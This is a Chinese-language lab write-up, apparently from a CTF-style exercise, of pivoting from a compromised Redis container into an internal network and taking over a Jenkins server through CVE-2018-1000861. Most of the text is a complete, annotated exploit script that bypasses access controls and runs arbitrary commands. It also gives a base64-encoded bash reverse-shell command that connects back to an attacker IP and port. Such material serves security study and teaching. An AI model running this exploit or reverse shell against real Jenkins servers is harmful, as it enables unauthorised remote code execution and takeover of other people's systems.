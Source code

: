 # CVE-2018-1000861：网络拓扑第二层内网攻击过程

## 任务内容：在redis漏洞；cve-2022-0543的容器中对下一层内网，进行扫描，找到靶机，并将其攻陷
---
## 1. 靶标访问入口
通过metasploit中的tcp扫描发现内网的主机
![](./image/redis.png)
![](./image/meterpreter.png)
![](./image/tcp扫描.png)
---

## 2. 漏洞原理简述
Jenkins 2.153 及更早版本、LTS 2.138.3 及更早版本使用的 Stapler Web 框架中存在一个代码执行漏洞，该漏洞位于 `stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java` 中，允许攻击者通过访问构建的 URL 来调用 Java 对象上的某些方法，而这些 URL 并不打算以这种方式调用。
该漏洞是一个高危的**反序列化远程代码执行（RCE）**漏洞，核心问题在于：
![](./image/高危.png)
![](./image/弱点.png)
- **漏洞链触发**  
  由两个CVE共同构成完整攻击链：
  1. **CVE-2018-1000860**: Stapler框架的CSRF防护绕过漏洞（通过`__stapler_bypass_crumb`参数）。
  2. **CVE-2018-1000861**: Stapler路由机制中的**不安全反序列化**漏洞。
- **关键缺陷点**  
  Jenkins的Stapler框架在解析HTTP请求时，允许攻击者通过特殊构造的参数名（如 `[descriptor].class`）传递**序列化的Java对象**。由于缺乏安全的反序列化验证：
  - 攻击者可注入包含恶意逻辑的 `org.codehaus.groovy.runtime.MethodClosure` 对象。
  - 该对象在反序列化时触发 `MethodClosure#call()` 方法，最终通过Groovy动态执行特性执行任意命令。
- **攻击过程**
   使用`python2 exp.py http://192.170.84.2:8080/ "bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNC8xMjMzMyAwPiYxCg == } | {base64, -d} | {bash, -i}"`
  嵌套的Base64编码反弹Shell指令代码进行攻击，他的功能是建立反向TCP连接到攻击者IP 192.168.56.104 的 12333 端口
- **exp.py文件代码**
```
#!/usr/bin/python
# coding: UTF-8
# author: Orange Tsai(@orange_8361)
# 
# 针对 Jenkins 漏洞 CVE-2018-1000861 和 CVE-2019-1003005 的利用脚本
# 核心漏洞：Stapler框架反序列化RCE + Groovy沙箱绕过

import sys
import requests
from enum import Enum

# 禁用SSL警告（避免自签名证书报错）
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass

# 漏洞利用的关键端点路径
endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

# 定义目标状态枚举
class mode(Enum):
    ACL_PATCHED = 0    # Jenkins已修复ACL绕过
    NOT_JENKINS = 1    # 目标不是Jenkins服务
    READ_ENABLE = 2    # 匿名读取权限开启
    READ_BYPASS = 3    # 可通过CVE-2018-1000861绕过ACL
    ENTRY_NOTFOUND = 999  # 关键端点不存在

def usage():
    '''显示脚本使用说明'''
    print '''
  Usage:
    python exp.py <url> <cmd>
    
  Example:
    python exp.py http://victim:8080/ "whoami"
    '''

def _log(msg, fail=False):
    '''自定义日志输出函数'''
    nb = '[*]' if not fail else '[-]'
    print '%s %s' % (nb, msg)

def _get(url, params=None):
    '''发送HTTP GET请求'''
    r = requests.get(url, verify=False, params=params)
    return r.status_code, r.content

def _add_bypass(url):
    '''添加ACL绕过路径(CVE-2018-1000861)'''
    return url + 'securityRealm/user/admin/'

def check(url):
    '''检测目标漏洞状态'''
    flag, accessible = mode.ACL_PATCHED, False

    # 检查匿名访问权限(ANONYMOUS_READ)
    status, content = _get(url)
    if status == 200 and 'adjuncts' in content:  # 'adjuncts'是Jenkins特有资源
        flag, accessible = mode.READ_ENABLE, True
        _log('ANONYMOUS_READ enabled!')
    elif status == 403:  # 访问被禁止
        _log('ANONYMOUS_READ disabled!')

        # 尝试CVE-2018-1000861 ACL绕过
        status, content = _get(_add_bypass(url))
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_BYPASS, True
            _log('ACL bypass successful with CVE-2018-1000861!')
    else:
        flag = mode.NOT_JENKINS
        _log('Target does not appear to be Jenkins', fail=True)

    # 检查漏洞利用端点是否存在(CVE-2019-1003005)
    if accessible:
        if flag is mode.READ_BYPASS:
            url = _add_bypass(url)  # 使用绕过后的URL
            
        # 探测关键端点
        status, content = _get(url + endpoint)
        if status == 404:
            flag = mode.ENTRY_NOTFOUND
            _log('Vulnerable endpoint not found', fail=True)

    return flag

def exploit(url, cmd):
    '''执行命令利用'''
    # 构造Groovy Payload: 将命令hex解码后执行
    # 格式: new String("HEX_CMD".decodeHex()).execute()
    payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
    
    # 漏洞触发参数
    params = {
        'sandbox': True,  # 利用沙箱绕过
        'value': payload   # 包含恶意代码的Groovy脚本
    }

    # 发送漏洞利用请求
    status, content = _get(url + endpoint, params)
    
    # 解析响应
    if status == 200:
        _log('Exploit success! Command should be executed.')
    elif status == 405:
        _log('Jenkins has patched the RCE gadget', fail=True)
    else:
        _log('Exploit failed with HTTP status [%d]' % status, fail=True)
        # 输出可能的错误堆栈
        if 'stack trace' in content:
            for line in content.splitlines():
                if line.startswith('Caused:'):
                    _log(line, fail=True)

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
        exit()

    # 处理目标URL格式
    url = sys.argv[1].rstrip('/') + '/'
    cmd = sys.argv[2]

    _log('Checking target: %s' % url)
    flag = check(url)
    
    # 根据检测结果执行利用
    if flag is mode.ACL_PATCHED:
        _log('Target appears patched (Jenkins > 2.137)', fail=True)
    elif flag is mode.NOT_JENKINS:
        _log('Target is not identified as Jenkins', fail=True)
    elif flag is mode.READ_ENABLE:
        _log('Exploiting with direct access')
        exploit(url, cmd)
    elif flag is mode.READ_BYPASS:
        _log('Exploiting with ACL bypass')
        exploit(_add_bypass(url), cmd)
    else:
        _log('Exploit endpoint not found', fail=True)
```

---

## 3. 漏洞存在性检测
### DNSLOG回显确认漏洞存在
![](./image/回显测试.png)
通过上述的攻击代码编写嵌套的shell命令，使靶机区访问dnslog网址
![](./image/回显.png)

## 4.漏洞利用效果检测
#### 建立远程网络代理
![](./image/socks.png)
#### 连通性测试
![](./image/连通测试.png)
#### 是攻击机对靶机进行反弹shell攻击
![](./image/攻击成功.png)
#### 监听得到shell，获取flag
![](./image/监听.png)